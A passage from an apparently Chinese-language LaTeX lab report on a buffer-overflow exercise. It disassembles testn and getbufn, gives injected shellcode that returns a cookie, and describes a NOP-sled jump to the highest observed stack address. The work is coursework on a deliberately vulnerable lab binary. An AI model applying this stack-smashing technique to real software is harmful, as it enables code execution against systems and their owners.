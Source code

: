 \textbf{分析过程：}

\begin{verbatim}
0000000000401220 <testn>:
    401220:    53                       push   %rbx
    401221:    48 83 ec 10              sub    $0x10,%rsp
    401225:    b8 00 00 00 00           mov    $0x0,%eax
    40122a:    e8 54 ff ff ff           callq  401183 <uniqueval>
    40122f:    89 44 24 0c              mov    %eax,0xc(%rsp)
    401233:    b8 00 00 00 00           mov    $0x0,%eax
    401238:    e8 ae 03 00 00           callq  4015eb <getbufn>
    40123d:    89 c3                    mov    %eax,%ebx
00000000004015eb <getbufn>:
    4015eb:    48 81 ec 08 02 00 00     sub    $0x208,%rsp
    4015f2:    48 89 e7                 mov    %rsp,%rdi
    4015f5:    e8 dd fa ff ff           callq  4010d7 <Gets>
    4015fa:    b8 01 00 00 00           mov    $0x1,%eax
    4015ff:    48 81 c4 08 02 00 00     add    $0x208,%rsp
    401606:    c3                       retq
\end{verbatim}
这一次testn调用n次getbufn，任务要求是getn返回cookie给testn:
构造攻击指令如下。
\begin{verbatim}
0:    b8 1b fe f6 51           mov    $0x51f6fe1b,%eax
5:    68 3d 12 40 00           pushq  $0x40123d
a:    c3                       retq
\end{verbatim}

看一下每一次的写入字符串的位置是多少以确定将来我们要跳转到哪个位置。 我的分别是： 0x55683ad0 0x55683b20 0x55683b40 0x55683b00 0x55683a60

可以看到最高的地址是0x55683b40，之后我们跳转到这个位置，由于字符串有0x208(520)个字节，我们全部填入nop(0x90)，将我们注入的命令写入高位字节，使得跳转之后始终可以到达我们注入的命令。

\subsection{最终破解结果展示}

\begin{figure}[H]
    \centering
    \includegraphics[width=0.7\linewidth]{figures/solution}
    \caption{破解结果}
    \label{fig:solution}
\end{figure}
